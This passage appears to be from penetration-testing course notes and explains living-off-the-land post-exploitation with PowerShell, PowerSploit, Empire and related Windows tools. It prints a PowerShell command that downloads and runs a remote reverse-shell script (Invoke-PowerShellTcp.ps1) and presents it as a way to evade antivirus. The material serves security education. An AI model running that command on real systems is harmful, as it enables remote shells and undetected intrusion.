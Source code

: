 Many different legitimate Windows legitimate utilities, such as PowerShell, Windows Management Instrumentation (WMI), and Sysinternals, can be used for post-exploitation activities, as described in the following sections. Similarly, you can use legitimate tools and installed applications in Linux and macOS systems to perform post-exploitation activities. If a compromised system has Python installed, for example, you can use it for additional exploitation and exfiltration. Similarly, you can use the Bash shell and tools like Netcat post-exploitation.

Using legitimate tools to perform post-exploitation activities is often referred to as **_living-off-the-land_** and, in some cases, as **_fileless malware_**. The term _fileless malware_ refers to the idea that there is no need to install any additional software or binaries to the compromised system. Examples of living-off-the-land post-exploitation techniques include the following:

- PowerShell for Post-Exploitation Tasks
- PowerSploit and Empire
- BloodHound
- Windows Management Instrumentation for Post-Exploitation Tasks
- Sysinternals and PsExec
- Windows Remote Management (WinRM) for Post-Exploitation Tasks

---

**PowerShell for Post-Exploitation Tasks**

You can use PowerShell to get directory listings, copy and move files, get a list of running processes, and perform administrative tasks. Table 8- 4 lists and describes some of the most useful PowerShell commands that can be used for post-exploitation tasks.

**_Table 8-_****_4_** _-_ _Useful PowerShell Commands for Post-Exploitation Tasks_

![[Pasted image 20240618110442.png]]

he following PowerShell command can be used to avoid detection by security products and antivirus software:

PS > **IEX (New-Object Net.WebClient).DownloadString('http:// /Invoke-PowerShellTcp.ps1')**

This command directly loads a PS1 file from the Internet instead of downloading it and then executes it on the device.

Remote management in Windows via PowerShell (often called **_PowerShell [PS] remoting_** ) is a basic feature that a system administrator can use to access and manage a system remotely. An attacker could also take advantage of this feature to perform post-exploitation activities.

**TIP** For details on how to enable PowerShell remoting, see [_https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting).

**PowerSploit and Empire**

PowerSploit is a collection of PowerShell modules that can be used for post-exploitation and other phases of an assessment. Table 8- 5 lists the most popular PowerSploit modules and scripts. Refer to [_https://github.com/PowerShellMafia/PowerSploit_](https://github.com/PowerShellMafia/PowerSploit) for a complete and up-to-date list of scripts.

**_Table 8-_****_5_** _-_ _PowerSploit Modules and Scripts_

![[Pasted image 20240618110644.png]] 
